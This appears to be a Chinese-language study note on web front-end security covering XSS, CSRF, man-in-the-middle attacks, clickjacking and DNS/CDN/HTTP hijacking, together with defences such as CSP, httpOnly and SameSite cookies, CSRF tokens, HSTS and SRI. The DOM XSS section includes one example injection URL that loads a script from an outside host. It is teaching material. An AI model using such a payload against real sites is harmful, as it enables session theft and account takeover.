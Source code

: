 
## web safe

常见的 web 前端安全攻击方式：
- xss 跨站脚本攻击
- csrf 跨站请求伪造
- MITM 中间人攻击

other:
- SQL 注入
- 点击劫持
- DOS
  - SYN泛洪攻击
- http网络劫持
- CDN 劫持
- SSl剥离

## XSS

跨站脚本攻击: 
在网页中插入恶意的js脚本， 当用户浏览时，就会触发脚本, 造成xss攻击    

### 分类
- 反射型
- 存储型
- DOM型

#### 反射型

用户输入的注入代码 通过浏览器传入到服务器后，又被反射回来，在浏览器中解析执行

demo: 表单输入 `<script src >` 然后回来执行 
电子邮件？ 聊天软件?

#### 存储型
用户输入的注入代码，通过传输，被永久春芳到了目标服务器的数据库或文件中，用户再次访问这个注入代码的页面就出现了

博客论坛留言板

#### DOM型
通过修改页面的dom结构

例子：

攻击者诱导被害者打开链接` hzfe.org?name=<script src="http://a.com/attack.js"/>`。

被攻击网站前端取出 URL 的 name 字段后未经转义直接通过 innerHTML 渲染到页面中。

被害者在不知情的情况下，执行了攻击者注入的脚本。


### 危害 

1. 劫持用户cookie，通过在网页中写入并执行文件，劫持用户浏览器，将用户当前使用的sessionID信息发送至攻击者控制的网站或服务器
2. 利用 iframe frame XHR Flash等，以用户的身份执行一些动作
3. 利用植入flash 通过crossdomain权限设置进一步获取更改权限，或利用java等得到类似操作
4. 挂马
5. 蠕虫
6. 有局限性的键盘记录

### 防范
1. 对外部的输入进行过滤编码和转译
2. 设置 cookie httpOnly 属性, 禁止js读取cookie
3. 开启CSP content security policy, 内容安全策略 ，规定浏览器只能执行特定来源的代码 



## csrf
跨站请求伪造

攻击者盗用用户身份，以用户身份发送恶意请求 

如：在第三方网站上直接放一个img， 就会盗用这个img链接相关的cookie从而发起请求

### 防范

阻止不明外域的访问
  <!-- 同源检测(referer 部分IE存在问题) -->
  Samesite Cookie
提交时要求附加本域才能获取的信息
  CSRF Token
  双重Cookie验证

1. csrf token
  在用户请求时需要加入token， 进行身份验证
    - 问题，大型网站添加seesion存储会增加服务器压力
2. http header中添加自定义属性并验证
3. 添加白名单，仅允许安全域名请求
4. 增加验证码验证
5. cookie设置 SameSite 属性，



## MITM 

中间人攻击

主要有两个阶段： 拦截和解密

### 拦截

在用户数据未到达目标设备前拦截，分为主动和被动

1. 主动
  - APR欺骗: 
  - DNS: 冒充域名服务器，将IP进行转发
2. 被动:
  免费的wifi热点 


### 解密

ssl劫持伪造证书 -> ssl剥离 将https降级为http转给用户使用 


### 防范

对开发者:
  - 支持https
  - 开启 hsts (Http strict transport security) 策略，有个缺点是用户首次访问时因还未收到 HSTS 响应头而不受保护

对用户：
  - 尽可能是用https
  - 避免不知名不安全wifi
  - 不忽略不安全的浏览器通知
  - 公共网络下不进行涉及敏感信息交互
  - 用可信的第三方CA厂商，不下载不明来源的证书



## other

### 点击劫持

http header: ```X-Frame-Options```
  - DENY: 始终禁止在 frame 中显示此页面，即便是同域名下的页面也不允许嵌套。
  - SAMEORIGIN: 只允许与页面同源的<iframe>中显示页面。
  - ALLOW-FROM url: 允许指定域的<iframe>中显示页面（已废弃，不推荐使用）

### CDN 劫持

产生:
  - 基于DNS的劫持
  - 互联网路由协议劫持
  - 攻击者可以通过欺骗或篡改CDN节点内容


防范:
- 通过 SRI 解决
  - 通过给 link 标签或者 script 标签增加 integrity 属性即可开启 SRI 功能， 验证子资源完整性
- 全链路https
- 回源操作直接使用ip，避免源路被dns劫持


### DNS 劫持

产生:
  - 本机dns劫持
  - 路由dns劫持
  - 攻击dns服务器

防范:
  - 

### http劫持

- 运营商HTTP劫持

防范：
- https

